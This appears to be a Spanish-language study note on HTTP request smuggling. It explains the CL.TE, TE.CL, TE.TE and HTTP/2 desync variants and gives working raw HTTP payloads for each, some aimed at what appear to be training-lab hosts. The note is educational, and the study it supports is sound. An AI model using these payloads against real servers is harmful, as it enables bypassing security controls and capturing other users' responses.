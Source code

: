 ```yaml
---

---
```

---
## **Breve explicación:**

- HTTP Request Smuggling es una vulnerabilidad que ocurre cuando un servidor **front-end** y un servidor **back-end** interpretan de forma diferente los límites de una petición HTTP, normalmente por usar de manera distinta los encabezados `Content-Length` y `Transfer-Encoding`.
- Esto permite a un atacante **inyectar una segunda petición HTTP dentro del cuerpo de la primera**, que el back-end procesará como si fuera legítima, saltándose controles del front-end.

**Posibles objetivos del ataque:**
- Saltar autenticaciones o controles de seguridad.
- Realizar ataques de *cache poisoning*.
- Extraer datos de otros usuarios.

**Resumen de tipos:**
- **CL.TE:** El front-end interpreta la longitud del cuerpo usando `Content-Length`, mientras que el back-end usa `Transfer-Encoding`.
- **TE.CL:** El front-end interpreta usando `Transfer-Encoding` y el back-end con `Content-Length`.
- **TE.TE:** Ambos usan `Transfer-Encoding`, pero se puede inducir a uno a ignorarlo mediante técnicas de ofuscación.
-- --
## **Deteccion**
![[Pasted image 20250814174821.png]]

---
# **Casos:**

## **CL.TE**
**Request:**
```http
POST / HTTP/1.1
Host: domain.com
Content-Length: 44
Transfer-Encoding: chunked

0

GET /error HTTP/1.1
kike: kion
```

**Explicacion:**
- El **front-end** usa `Content-Length` y considera todo el body como **un único request**.
- El **back-end** usa `Transfer-Encoding: chunked`, **corta en `0\r\n\r\n`** y trata lo que sigue como **un segundo request** (el `GET`), que el front-end **nunca validó**.
- La **segunda respuesta** puede desincronizarse y entregarse al **próximo usuario** o permitir **bypass** de controles del front-end.
*Aclaracion:*
- Si llega a aceptar **`HTTP/1.0`** podemos enviar la solicitud sin ningun header (vale la pena probarlo).
-- -
## **TE.CL**
**Request1:**
```http
POST / HTTP/1.1
Host: domain.com
Content-Length: 4
Transfer-Encoding: chunked

38
POST /error HTTP/1.1
Content-Length: 30 

testing=test 
0

```

**Request2:**
```http
POST / HTTP/1.1
Host: domain.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

**Explicacion:**
- El **front-end** usa `Transfer-Encoding: chunked` y detecta el 0 como fin de la request. 
- El **back-end** usa `Content-Length` y considera que el body es **`5e\r\n`**.
- Esto genera que el **back-end** separe la request en 2 generando una desincronizacion. Esta desincronizacion se genera ya que el **Content-Length** es mayor a la data tramitada, por lo que el servidor queda en espera de los proximos bytes e incrusta los bytes obtenidos del proximo cliente que solicite el endpoint.
-- -
## **H2.TE**
**Request1:**
```http
POST / HTTP/2
Host: 0aeb00c904bfd8c8804085fa000e006a.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 120

0

GET / HTTP/1.1
Host: 0aeb00c904bfd8c8804085fa000e006a.web-security-academy.net
Content-Length: 12

testing=test

```

**Request2:**
```http
POST / HTTP/2
Host: 0aeb00c904bfd8c8804085fa000e006a.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 88

0

GET / HTTP/1.1
Host: 0aeb00c904bfd8c8804085fa000e006a.web-security-academy.net

```

**Explicacion:**
- Aprovechando que el **back-end** sigue procesando peticiones **`HTTP/1.1`** embebidas dentro de solicitudes **`HTTP/2`**, enviamos varias peticiones preparadas con un GET /x camuflado. Gracias a este desfase, logramos obtener la respuesta de otra sesión.
--- 